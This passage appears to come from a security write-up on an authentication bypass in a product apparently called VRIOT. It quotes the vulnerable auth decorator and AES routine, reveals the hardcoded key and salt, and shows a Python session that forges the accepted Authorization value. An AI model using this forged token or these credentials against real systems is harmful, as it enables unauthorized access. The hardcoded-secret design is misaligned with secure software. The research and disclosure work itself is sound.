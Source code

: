 ```python

        # Normal Authentication
        k = requests.get("https://0.0.0.0/app/v1/controller/stats",headers={'Authorization': request.headers.get('Authorization')},verify=False)
        if(k.status_code != 200):
            return Response(json.dumps({"detail": "Invalid Token."}), 401)
        else:
            return f()
    return wrapper
```

Let's ignore the header comparison **:)** and focus in the N+1 authentication. As you can see, if the Authorization header does not contain the word "Token", the header value is decrypted and compared with a hardcoded value from a file (`/VRIOT/ops/scripts/haN1/service_auth`). The encryption / decryption routines can be found in the file `/VRIOT/ops/scripts/enc_dec.py`:

```python
    def __init__(self, salt='nplusServiceAuth'):
        self.salt = salt.encode("utf8")
        self.enc_dec_method = 'utf-8'
        self.str_key=config.get('n1_token').encode("utf8")




    def encrypt(self, str_to_enc):
        try:
            aes_obj = AES.new(self.str_key, AES.MODE_CFB, self.salt)
            hx_enc = aes_obj.encrypt(str_to_enc.encode("utf8"))
            mret = b64encode(hx_enc).decode(self.enc_dec_method)
            return mret
        except ValueError as value_error:
            if value_error.args[0] == 'IV must be 16 bytes long':
                raise ValueError('Encryption Error: SALT must be 16 characters long')
            elif value_error.args[0] == 'AES key must be either 16, 24, or 32 bytes long':
                raise ValueError('Encryption Error: Encryption key must be either 16, 24, or 32 characters long')
            else:
                raise ValueError(value_error)
```


The `n1_token` value can be found by grepping (spoiler: it is **serviceN1authent**). With all this information we can go to our python console and create the magic value:

```python
>>> from Crypto.Cipher import AES
>>> from base64 import b64encode, b64decode
>>> salt='nplusServiceAuth'
>>> salt = salt.encode("utf8")
>>> enc_dec_method = 'utf-8'
>>> str_key = 'serviceN1authent'
>>> aes_obj = AES.new(str_key, AES.MODE_CFB, salt)
>>> hx_enc = aes_obj.encrypt('TlBMVVMx'.encode("utf8"))# From /VRIOT/ops/scripts/haN1/service_auth
>>> mret = b64encode(hx_enc).decode(enc_dec_method)
>>> print mret
OlDkR+oocZg=
```

